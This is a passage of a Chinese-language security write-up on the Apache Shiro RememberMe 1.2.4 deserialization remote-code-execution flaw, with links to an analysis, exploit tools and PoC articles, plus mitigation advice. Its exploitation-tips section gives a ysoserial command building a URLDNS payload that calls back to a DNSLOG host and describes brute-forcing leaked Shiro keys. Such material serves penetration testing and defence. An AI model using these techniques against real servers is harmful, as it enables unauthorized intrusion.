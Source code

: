 app="Apache-Shiro"

  

**5. 漏洞分析**

漏洞分析：Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞

https://paper.seebug.org/shiro-rememberme-1-2-4/  

  

**6. 漏洞利用**

wyzxxz/shiro_rce:shiro rce反序列命令执行一键工具

https://github.com/wyzxxz/shiro_rce  

Apache Shiro回显poc改造计划

[https://mp.weixin.qq.com/s/-ODg9xL838wro2S_NK30bw](https://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652475467&idx=1&sn=42c09c4af10c02c7987b87631e20a9e1&scene=21#wechat_redirect)

  

**7. 利用技巧**

1.使用多个泄露的key进行遍历, 这个在实战中确实有效

关于Shiro反序列化漏洞的延伸—升级shiro也能被shell  
[https://mp.weixin.qq.com/s/NRx-rDBEFEbZYrfnRw2iDw](https://mp.weixin.qq.com/s?__biz=MzIxNDI0MDAxNg==&mid=2247484298&idx=1&sn=9c0589966e12e381626293818af6164e&scene=21#wechat_redirect)

Shiro 100 Key  
[https://mp.weixin.qq.com/s/sclSe2hWfhv8RZvQCuI8LA](https://mp.weixin.qq.com/s?__biz=MzU2NTc2MjAyNg==&mid=2247483839&idx=1&sn=af583300d36565ac92fda151ead8323b&scene=21#wechat_redirect)

  

2.使用URLDNS进行检测提速

使用适应性最强的URLDNS(这个不受JDK版本和安全策略影响, 除非网络限制不能出DNS)进行检测且可以使用ysoserial提前生成序列化内容java-jartarget/ysoserial-0.0.5-SNAPSHOT-all.jarURLDNS "http://1234567890.test.ceye.io" > urldns.ser然后使用占位符+目标url hash的方法修改序列化内容中的urldns地址提高检测速度以及后续检测无需使用ysoserial

  

例如1234567890.test.ceye.io可以换成md5('www.qq.com').hexdigest() [:10].test.ceye.io也就是9d2c68d82d.test.ceye.io可以预先记录hash9d2c68d82d www.qq.com然后进行hash查表就可以知道是DNSLOG来自哪个目标,性能会提高不少

  

3.已知目标使用了Shiro,可以采取Shiro-721的报错逻辑来进行遍历key这样即使DNS不能出网,也可以通过是否返回rememberMe=deleteMe来断定shiro key的正确性, 前提是服务器有rememberMe=deleteMe相关回显

  

**8. 防护方法**

1.升级Shiro到最新版

2.升级对应JDK版本到 8u191/7u201/6u211/11.0.1 以上

3.WAF拦截Cookie中长度过大的rememberMe值  

  

10  
  
